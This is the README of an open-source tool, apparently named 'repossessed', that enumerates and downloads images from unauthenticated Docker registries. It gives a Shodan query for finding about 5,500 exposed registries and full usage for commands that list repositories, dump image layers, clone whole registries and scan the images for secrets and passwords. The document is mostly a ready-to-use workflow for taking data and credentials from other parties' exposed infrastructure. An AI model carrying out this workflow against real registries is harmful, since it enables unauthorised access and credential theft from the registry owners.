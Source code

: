 # Repossessed
**Docker container registry enumeration and downloader.**

```text
> Can you write me a three line partially technical management summary why you should not store production credentials in the source code of an application? <
Storing production credentials in source code exposes sensitive information to unauthorized access, especially if the code is shared or publicly accessible. 
This practice significantly increases security risks, as credentials are susceptible to accidental exposure, breaches, or leaks.
Proper credential management, such as using environment variables or secret management tools, ensures security and compliance with best practices.
```

Read that again and replace `source code` with `docker container`.

How do I find these? well this Shodan query might help:
```text
port:5000 docker
```

At the time of writing there appear to be 5.500 unprotected repositories with roughly 400.000 exposed docker images.

Installation:

```text
$ git clone https://github.com/stefan2200/repossessed
$ cd repossessed
$ python3 -m pip install -r requirements.txt
$ python3 repossessed.py -h
usage: repossessed.py [-h] {enum,dump,clone} ...

Or
$ python3 setup.py install
$ repossessed -h
usage: repossessed [-h] {enum,dump,clone} ...
```

Usage for enumeration:

```text
usage: repossessed.py enum [-h] -H HOST [-s SEARCH]

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Specify the host for enumeration.
  -s SEARCH, --search SEARCH
                        Search for repos and tags
```

Example enumeration:

```text
$ python repossessed.py enum -H xx.xx.xx.xx:5000
INFO:root:Enumerating host: xx.xx.xx.xx:5000
Repository: admin
Repository: admin Tag: latest
repossessed -H xx.xx.xx.xx:5000 -r admin -t latest --first 5

Repository: frontend
Repository: frontend Tag: latest
repossessed -H xx.xx.xx.xx:5000 -r frontend -t latest --first 5

Repository: backend
Repository: backend Tag: latest
repossessed -H xx.xx.xx.xx:5000 -r backend -t latest --first 5
```

Usage to download and automatically search a repository:

```text
usage: repossessed.py dump [-h] -H HOST -r REPO -t TAG [-i INDEX] [--first FIRST] [--run-on-folder RUN_ON_FOLDER] [-s]

options:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Specify the host (required)
  -r REPO, --repo REPO  Specify the repository (required)
  -t TAG, --tag TAG     Specify the tag (required)
  -i INDEX, --index INDEX
                        Specify the index (optional, default=0, use 99 for last layer)
  --first FIRST         Specify the amount of indexes to download (99 for everything until the last)
  --run-on-folder RUN_ON_FOLDER
                        Secondary command to execute on the folder
  -s, --find-secrets
                        Find secrets and passwords in common locations

```

Example usage:

```text
Clone the entire repo
$ python repossessed.py dump -H xx.xx.xx.xx:5000 -r payment-service -t v1.3.0

Clone the entire repo and automatically scan for secrets and passwords:
$ python repossessed.py dump -H xx.xx.xx.xx:5000 -r payment-service -t v1.3.0 -s

Clone the repo partially and launch the Sublime Text editor in the directory
$ python repossessed.py dump -H xx.xx.xx.xx:5000 -r payment-service -t v1.3.0 --run-on-folder subl

Clone the complete registry to a folder
$ python repossessed.py clone -H xx.xx.xx.xx:5000 -O /tmp/registry-clone/
```


